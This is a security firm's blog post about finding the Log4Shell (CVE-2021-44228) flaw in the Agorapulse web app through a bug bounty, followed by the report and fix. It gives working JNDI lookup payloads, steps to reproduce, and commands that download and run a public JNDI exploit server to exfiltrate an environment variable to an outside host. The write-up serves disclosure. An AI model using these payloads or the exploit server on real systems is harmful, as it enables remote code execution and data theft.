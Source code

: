 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, in the past, Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information.


Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j versions 2.0 to 2.14.1, [as identified by Chen Zhaojun of the Alibaba Cloud Security Team](https://www.bloomberg.com/news/articles/2021-12-13/how-apache-raced-to-fix-a-potentially-disastrous-software-flaw). NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this [CVE-2021–44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the [analytics published](https://www.hackerone.com/vulnerability-management/log4shell-attack-evolution) by HackerOne which says, “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell". Almost the same number of reports were submitted on bugcrowd as well with over 300 reports submitted in a single day.



## What is agorapulse:

Agorapulse basically provides everything an organization could possibly need for social media marketing, monitoring, and management. Agora Pulse offers a comprehensive and compact platform for businesses to execute their marketing strategies while remaining under budget. The software is used to create and schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of the winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking, our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability. Due to the fact that the vulnerability could be present on any endpoint or any request, it was really hard to focus on one part of an application. So we decided to inject payloads all over the web application and wait for any pingbacks. To do that, we identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application, and as said above to keep things organized, we used functionality-specific identifiers in the payloads.

For example

If we were using a payload in the profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in the message box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to identify the vulnerable request to trigger the vulnerability.


On the other hand, we also played it safe, using a payload that was not at all harmful to the client i.e did not result in any denial of service attack or executing any malicious commands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the DNS pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}`.

So now the identification process began, and after a while, we received two pingbacks. One of the received was a false positive. But next up, we had a DNS pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So, the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![x](/blog/assets/images/agora-log4j/1.png)



- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}` and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![x](/blog/assets/images/agora-log4j/2.png)

- On going back to the burp collaborator client, you will see a Pingback.

![x](/blog/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections, successful exploitation could lead to RCE. We refrained from taking any such action that could lead to any kind of disruption in services. So, we decided to prove the impact by extracting the global PATH variable to prove the real impact of the vulnerability, and we needed to set up a JNDI server for that. So we quickly set up an Amazon EC2 and set up a JNDI server using the following approach.

- SSH to your Server


```console
ssh user@<your-ip>
```

- Download and Install JNDI Server

```console
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```console
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands, we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and made another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![x](/blog/assets/images/agora-log4j/4.png)
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical. Hence, no sensitive, confidential, or any other information related to their users was extracted.


## Response of Agora Team

After submitting the report to the agora team, we got their first response within a day. They were responsive and concerned with the security of their online assets. They fixed the bug on the same day and rewarded our finding.

After their fix was implemented, the team requested a re-check on the vulnerability, and we tried various payloads and bypasses to confirm if the fix was working well. But we were unable to bypass the fix, and it was working fine, so we confirmed the fix.

  
  
> ⚠️ Agorapulse was one of the 14 companies Snapsec helped to detect and fix Log4shell on the day it was publicly disclosed. 

## About us

Snapsec is a Cyber security service company for rapidly growing SaaS businesses, we help you with an enhanced level of security to defend your critical networks and data at affordable charges for our services.

Please feel free to contact us at support@snapsec.com if you're seeking a company that appreciates your security and guarantees that you are completely protected from online security risks. 
 
